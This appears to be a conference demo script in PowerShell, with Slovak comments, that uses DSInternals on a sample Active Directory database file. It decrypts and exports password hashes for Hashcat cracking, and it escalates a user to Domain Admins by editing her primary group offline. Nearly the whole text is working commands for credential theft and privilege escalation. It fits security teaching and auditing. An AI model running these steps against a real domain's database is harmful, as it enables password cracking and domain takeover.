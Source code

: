 <pre class="lang:ps decode:true "># Nainštalujeme modul DSInternals
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
Install-Module -Name DSInternals -Scope CurrentUser -Force
Import-Module -Name DSInternals

# Vytvoríme si&nbsp;pomocný adresár
$targetFolder = 'C:\HackerFest\ActiveDirectory'
mkdir -Path $targetFolder -Force

&lt;#
Manuálny krok: Stiahnite a&nbsp;rozbaľte súbor ntds.zip z&nbsp;adresy
https://1drv.ms/f/s!Ah1NVj_AudV4iZ1M_EF6HUu1dLT9KA do&nbsp;C:\HackerFest\ActiveDirectory
#&gt;

# Zobrazenie informácií o&nbsp;databáze
$dbFile = Join-Path $targetFolder ntds.dit
$dcInfo = Get-ADDBDomainController -DBPath $dbFile
$dcInfo

# Zobrazenie zoznamu používateľov
Get-ADDBAccount -All -DBPath $dbFile | Out-GridView

# Načítanie SysKey z&nbsp;registrov
$regFile = Join-Path $targetFolder SYSTEM
$sysKey = Get-SysKey -SystemHiveFilePath $regFile
$sysKey

# Dešifrovanie hashov hesla
Get-ADDBAccount -SamAccountName Wendy -DBPath $dbFile -SysKey $sysKey

# Export hashov hesiel pre&nbsp;oclHashcat
Get-ADDBAccount -All -DBPath $dbFile -SysKey $sysKey | Format-Custom -View HashcatNT

# Zakázanie a&nbsp;povolenie účtu
Get-ADDBAccount -SamAccountName Administrator -DBPath $dbFile | select SamAccountName,Enabled
Disable-ADDBAccount -SamAccountName Administrator -DBPath $dbFile
Get-ADDBAccount -SamAccountName Administrator -DBPath $dbFile | select SamAccountName,Enabled

Enable-ADDBAccount -SamAccountName Administrator -DBPath $dbFile
Get-ADDBAccount -SamAccountName Administrator -DBPath $dbFile | select SamAccountName,Enabled

&lt;# Zmena členstva v&nbsp;primárnej skupine Potrebujeme zoznam dobre známych RIDov: https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems Napríklad: 512 Domain Admins 513 Domain Users 515 Domain Computers 516 Domain Controllers 519 Enterprise Admins #&gt;
Get-ADDBAccount -SamAccountName Wendy -DBPath $dbFile | select SamAccountName,PrimaryGroupId
Set-ADDBPrimaryGroup -SamAccountName Wendy -PrimaryGroupId 512 -DBPath $dbFile
Get-ADDBAccount -SamAccountName Wendy -DBPath $dbFile | select SamAccountName,PrimaryGroupId

